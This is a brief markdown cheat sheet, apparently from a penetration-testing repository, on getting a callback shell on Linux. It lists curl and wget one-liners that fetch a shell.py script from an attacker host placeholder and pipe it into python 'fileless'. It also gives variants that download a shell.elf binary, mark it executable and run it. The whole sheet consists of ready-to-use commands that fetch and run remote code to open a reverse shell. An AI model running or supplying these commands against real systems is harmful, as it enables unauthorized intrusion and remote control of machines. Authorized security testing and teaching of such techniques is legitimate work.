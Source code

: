 # Linux

## 01 - Unix Shell

### 1.1 - Basics

#### 1.1.1 - Callback Shell

1. Fileless

`$ curl http[s]://<IP>/shell.py | python`

- If the machine doesn't have `curl` installed you can use `wget` to execute it through memory

`$ wget -qO- http[s]://<IP>/shell.py | python`

2. On Disk

Download reverse shell binary and execute it

```
$ curl -o shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf

$ wget -O shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf
```